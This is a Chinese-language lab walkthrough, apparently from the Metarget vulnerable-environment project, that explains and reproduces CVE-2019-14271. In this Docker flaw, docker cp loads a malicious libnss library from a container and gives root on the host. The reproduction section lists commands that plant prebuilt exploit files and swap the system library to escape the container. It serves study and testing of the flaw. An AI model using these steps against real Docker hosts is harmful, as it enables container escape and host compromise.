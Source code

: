 # Docker copy漏洞导致容器逃逸（CVE-2019-14271）

## 场景介绍

`docker cp`命令允许从容器、向容器中、或容器之间复制文件。语法与标准的unix cp命令非常相似。要从容器中复制`/var/logs`，语法是`docker cp container_name:/var/logs /some/host/path`。

在复制的过程中Docker使用了一个名为`docker-tar`的帮助进程。`docker-tar`是通过chroot到容器，将请求的文件或目录存档，然后将生成的tar文件传递给Docker daemon，然后由daemon提取到主机的目标目录中。

有漏洞的Docker版本是用Go v1.11编译的。在该版本中，一些含有嵌入C代码（cgo）的包会在运行时动态加载共享的库。这些包包括`net`和`os/user`，都是docker-tar使用的，而且在运行时会加载多个`libnss_*.so`库。一般来说，库是从`host`文件系统加载的，但因为`docker-tar`chroot到了容器，因此会从容器文件系统中加载库。也就是说`docker-tar`会加载和执行来源于容器或由容器控制的代码。因此，通过注入代码到`docker-tar`，恶意容器就可以获取host主机的完全root访问权限。

可能的攻击场景有Docker用户从另一个Docker处复制文件:

- 容器运行含有恶意`libnss_*.so`库的镜像
- 容器中含有被攻击者替换的`libnss_*.so`库

在这两种情况下，攻击者都可以获取主机上的root代码执行权限。

## 环境搭建

漏洞环境准备:

```bash
./metarget cnv install cve-2019-14271
```

## 漏洞复现

新建一个容器:

```
sudo docker run -itd --name=14271 ubuntu bash
```

将漏洞利用文件拷贝至容器内:

```bash
sudo docker cp exp/ 14271:/
sudo docker exec -it 14271 bash #进入容器
ls /exp
breakout  libnss_files.so.2  original_libnss_files.so.2
cp /exp/* /
chmod 777 /breakout
touch /logs
```

删除容器内原来的so库:

```
rm /lib/x86_64-linux-gnu/libnss_files.so.2
```

然后替换为修改后的恶意so文件:

```
mv /libnss_files.so.2 /lib/x86_64-linux-gnu/
```

替换后退出容器，在宿主机上执行cp命令`sudo docker cp 14271:/logs ./`即可完成逃逸（若不成功，可查看breakout文件是否有执行权限）。

进入容器内部，可发现根目录下存在host_fs目录挂载了宿主机的文件系统，成功逃逸。

## 参考文献

1. https://xz.aliyun.com/t/6806
2. https://zhuanlan.zhihu.com/p/93104462
